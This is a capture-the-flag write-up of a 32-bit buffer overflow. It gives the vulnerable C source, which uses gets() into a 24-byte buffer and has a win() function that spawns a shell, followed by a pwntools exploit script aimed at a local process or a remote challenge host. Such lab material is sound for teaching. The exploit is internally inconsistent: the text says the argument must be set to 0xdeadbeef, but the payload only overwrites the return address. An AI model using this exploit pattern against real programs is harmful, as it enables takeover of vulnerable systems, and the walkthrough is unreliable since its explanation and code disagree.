




## Intro to PWN 2

Start by running checksec on the binary.



We have a 32 bit binary.  NX is enabled but PIE is not.  Once again we can put static addresses into our exploit.  We have source code.  Lets view it.

#### main.c
```C
#include <stdlib.h> 
#include <stdio.h> 

void win(unsigned int x){ 
    if (x != 0xdeadbeef){
        puts("Almost...");
	return;
    }
    system("/bin/sh");
} 

void vuln(){
    char buf[24]; 
    gets(buf); 
} 

int main(){ 
    puts("Level 3: Args too?\n"); 
    vuln(); 
    return 0; 
} 
```

Once again we need to jump to the win() function to get a shell.  However we need to set the x argument to "0xdeadbeef".  It's important to note that for i386 executable the arguments are passed in on the stack.  If we have a buffer overflow we can overwrite arguments passed to win. Here is what the stack looks like for vuln.



We need to skip 67 bytes then append the address of win() in little endian.  Use objdump to get the address of win().



Lets write our exploit.

#### exploit.py
```python
from pwn import *
import sys

binary = context.binary = ELF("./dist/pwnme")

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('0.cloud.chals.io', 22209)

payload =  b""
payload += b"A"*0x43
payload += p32(binary.sym.win)

with open("payload", "wb") as fp:
    fp.write(payload)

p.sendline(payload)
p.interactive()
```

Run the exploit.



Complete!